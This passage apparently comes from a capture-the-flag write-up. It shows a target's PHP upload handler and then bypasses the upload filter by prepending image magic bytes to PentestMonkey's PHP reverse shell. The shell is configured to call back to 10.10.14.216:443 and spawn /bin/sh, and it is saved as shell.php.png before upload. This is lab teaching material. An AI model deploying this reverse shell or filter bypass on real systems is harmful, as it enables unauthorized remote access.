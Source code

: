 ```php
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";
```

Cool lets  try exploiting this.

### Exploitation

Lets grab a copy of PentestMonkey's famous php-reverse-shell.php and copy in the .png magic bytes to the top of the script. I'll then save it as shell.php.png:

```php
GIF89a;
<?php
// <SNIP>

// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.216';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// <SNIP>
```

I can then upload the file to `/upload.php`

I can confirm my file was successfully loaded in photos.php:

![networked_photos.png](../assets/networked_assets/networked_photos.png)
